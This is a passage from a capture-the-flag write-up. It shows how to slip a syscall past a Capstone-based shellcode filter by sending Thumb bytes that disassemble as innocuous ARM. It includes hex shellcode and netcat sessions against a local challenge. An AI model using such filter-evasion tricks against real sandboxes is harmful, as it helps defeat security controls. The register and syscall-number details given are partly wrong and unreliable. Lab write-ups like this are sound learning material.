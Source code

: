 Lets try calling a simple syscall:
```asm
nop
svc #0
bx lr
```

```sh
$ nc localhost 5001
Welcome to shell code as a shell
Enter your shellcode (in hex please) up to 512 chars
00f020e3000000ef1eff2fe1
*** Read 3 instructions ***
0xdead0000:     nop
0xdead0004:     svc             #0
*** No syscalls for you! ***
```

It filters it out while disassembling/inspecting it seems, and then early exits.

Going even more in depth we see the c code checks for `ARM_GRP_INT`, which is equal to `CS_GRP_INT`, which you can see [here](https://github.com/mrexodia/FloatConvert/blob/914f301fed4318c262499bbaf9feedb657dcd169/FloatConvert/pluginsdk/capstone/arm.h#L906C27-L906C37)

We quickly see that `CS_GRP_INT` means all interrupt instructions, including syscalls, so there doesn't seem like we can bypass this directly. We continue with idea no 1.
# How is thumb disassembled as arm?
Lets try writing some shellcode in thumb and see if it gets filtered. Im willing to bet it doesn't!

```asm
mov r0, 123
svc 93
```

```
4ff07b005ddf
```

```
$ nc localhost 5001
Welcome to shell code as a shell
Enter your shellcode (in hex please) up to 512 chars
4ff07b005ddf
*** Read 1 instructions ***
0xdead0000:     rsbseq          pc, fp, pc, asr #32
*** Shellcode looks good, let's roll! ***
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
Segmentation fault
```
Nice! Our thumb shellcode which does a syscall looks completely different as arm!

This code should call exit(123), and we can see the exit code in the window running the container, so let's see if we can now actually get to run it as thumb!

**This is actually wrong code, with the linux arm abi, you put the syscall nr in `r8`, not after svc, but the point still stands**
